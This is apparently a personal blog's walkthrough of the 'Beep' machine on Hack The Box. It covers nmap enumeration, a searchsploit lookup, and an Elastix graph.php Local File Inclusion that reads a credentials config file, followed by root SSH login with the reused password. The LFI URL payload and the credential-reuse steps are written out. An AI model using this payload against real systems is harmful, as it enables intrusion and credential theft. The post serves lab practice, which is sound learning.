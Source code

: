 ```yaml
---
layout: post
author: dalemazza
title: HTB - Beep OSCP Walkthrough
date: 2020-07-04
category: HTB
tags: HTB
published: true
---
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/beep.jpg">
</p>
Hi guys today I am tackling beep, One of the oldest boxes on HTB. I will be doing this box without metasploit, OSCP style. This box is a Linux box rated easy.  

This box includes the following techniques:  
* nmap
* searchsploit
* Local File Inclusion

### Quick overview  

This box is running a webserver that has elastix installed on. After trying the default credentials I could not get access. I searched for exploits relating to elastix and found a few. After trying many of them one finally worked. This exploit took me straight to Root!

I Start **nmap** scan as per normal.    
`sudo nmap -A -T4 -p- 10.10.10.7`
```
Nmap scan report for 10.10.10.7
Host is up (0.012s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS PIPELINING UIDL RESP-CODES TOP LOGIN-DELAY(0) AUTH-RESP-CODE USER IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) APOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: X-NETSCAPE NAMESPACE ACL Completed THREAD=ORDEREDSUBJECT CHILDREN CATENATE BINARY IMAP4rev1 MAILBOX-REFERRALS SORT=MODSEQ ID STARTTLS LISTEXT URLAUTHA0001 LIST-SUBSCRIBED IDLE CONDSTORE ANNOTATEMORE RENAME UIDPLUS ATOMIC RIGHTS=kxte IMAP4 LITERAL+ UNSELECT OK QUOTA NO MULTIAPPEND SORT THREAD=REFERENCES
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-04T16:22:18+00:00; +3m04s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesnt have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|specialized|printer|proxy server
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (94%), Riverbed RiOS (94%), HP embedded (94%), WebSense embedded (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:linksys:wrv54g cpe:/o:riverbed:rios cpe:/o:linux:linux_kernel:2.6 cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.18 (95%), Linux 2.6.9 - 2.6.24 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.27 (95%), Linux 2.6.30 (95%), Linux 2.6.5 - 2.6.12 (95%), Linux 2.6.5-7.283-smp (SuSE Enterprise Server 9, x86) (95%), Linux 2.6.8 (Debian 3.1) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 3m03s

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   11.57 ms 10.10.14.1
2   11.72 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

That's a lot of stuff to enumerate! I like to start at port 80.  

The web server served me this page

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/1.png">
</p>  
### Fig 1. Elastix login page  
This page is from elastix. Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center. After trying to default credentials I could not get access. Let's see if searchsploit has any exploits.

***
### What is searchsploit?
Searhsploit is a database of exploits. You can give it a program with or without the version and it will go out to several places to see if any exploits are found for that software. The results also give you the scripts used to exploit it.

```
searchsploit Elastix
```


<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/3.png">
</p>  
#### Fig 2. Searchsploit results  

Searchsploit has found a few exploits. I struggled to find the version of the the software running so I tried all the exploits. Eventually the **Elastix 2.2.0 - 'graph.php' Local File Inclusion** exploit worked!

Upon looking up the exploit on exploit DB [here](https://www.exploit-db.com/exploits/37637). I found that the exploit had a python script that executes an **LFI** in the graph.php current language path. I didn't need the whole script so i took the **LFI** location and tried it.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/lfi.png">
</p>  
#### Fig 3. LFI location  

Now lets see if the exploits runs.

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/4.png">
</p>  
#### Fig 3. LFI exploits

It works! The page has a lot of text on the screen so i search for "pass"

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/5.png">
</p>  
#### Fig 3. Admin credentials

Looks like the we have some admin credentials. One thing I notice is that this page contains the user and passwords for several programs, The same password and username keeps popping up, maybe he use's that for everything?

Let's see what `/etc/passwd` gives us

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/6.png">
</p>  
#### Fig 4. etc/passwd

Here we can see that there is a user called 'fanis', we have not got a password for that yet. Let's be cheeky and see if I can read the `root.txt`

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/7.png">
</p>  
#### Fig 5. No access to root.txt

Worth a shot! Let's see if the admin reuses his credentials
```
ssh root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/9.png">
</p>  
#### Fig 6. SSH error

That is a weird error. After googling I found that this happens when connecting to old deprecated versions of **SSH**. We have to use a flag to connect to this machine.
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/beep/8.png">
</p>  
#### Fig 7. SSH error

It worked! Looks like we have root aswell! Time to get those flags!
```
cat root.txt

cat /home/fanis/user.txt
```

This was a fairly easy box, There are many methods to root this box but this is the one I found. Thanks
